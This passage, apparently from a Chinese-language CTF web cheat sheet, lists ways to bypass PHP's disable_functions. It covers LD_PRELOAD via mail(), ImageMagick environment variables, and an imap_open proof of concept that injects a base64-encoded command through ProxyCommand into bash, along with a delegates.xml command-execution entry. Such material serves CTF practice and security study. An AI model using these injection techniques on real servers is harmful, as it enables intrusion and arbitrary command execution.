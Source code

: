- Fastcgi
    - [link](https://github.com/w181496/CTF/tree/master/0ctf2019_qual/WallbreakerEasy)

- ...

## disable_functions繞過

- bash shellshock
- mail()
    - `sendmail`
    - putenv寫LD_PRELOAD
    - trick: [LD_PRELOAD without sendmail/getuid()](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)

- mb_send_mail()
    - 跟 mail() 基本上一樣

- imap_mail()
    - 同上

- imap_open()
    ```php
    <?php
    $payload = "echo hello|tee /tmp/executed";
    $encoded_payload = base64_encode($payload);
    $server = "any -o ProxyCommand=echo\t".$encoded_payload."|base64\t-d|bash";
    @imap_open('{'.$server.'}:143/imap}INBOX', '', '');
    ```
- error_log()
    - 第二個參數 `message_type` 為 1 時，會去調用 sendmail

- ImageMagick
    - [Command Injection](https://www.exploit-db.com/exploits/39766)
    - LD_PRELOAD + ghostscript:
        - Imagemagick 會用 ghostscript去parse `eps`
        - [Link](https://balsn.tw/ctf_writeup/20190323-0ctf_tctf2019quals/#solution-2:-bypass-disable_function-with-ld_preload)
    - LD_PRELOAD + ffpmeg
        - [Link](https://hxp.io/blog/53/0CTF-Quals-2019-Wallbreaker-easy-writeup/)
    - MAGICK_CODER_MODULE_PATH
        - > it can permits the user to arbitrarily extend the image formats supported by ImageMagick by adding loadable coder modules from an preferred location rather than copying them into the ImageMagick installation directory
        - [Document](https://www.imagemagick.org/script/resources.php#Environment%20Variables)
        - [Link](https://github.com/m0xiaoxi/CTF_Web_docker/tree/master/TCTF2019/Wallbreaker_Easy)
    - MAGICK_CONFIGURE_PATH
        - `delegates.xml` 定義處理各種文件的規則
        - 可以用 putenv 寫掉設定檔路徑
        - [Link](https://xz.aliyun.com/t/4688#toc-14)

        ```xml
        <delegatemap>
        <delegate decode="ps:alpha" command="sh -c &quot;/readflag > /tmp/output&quot;"/>
        </delegatemap>
        ```
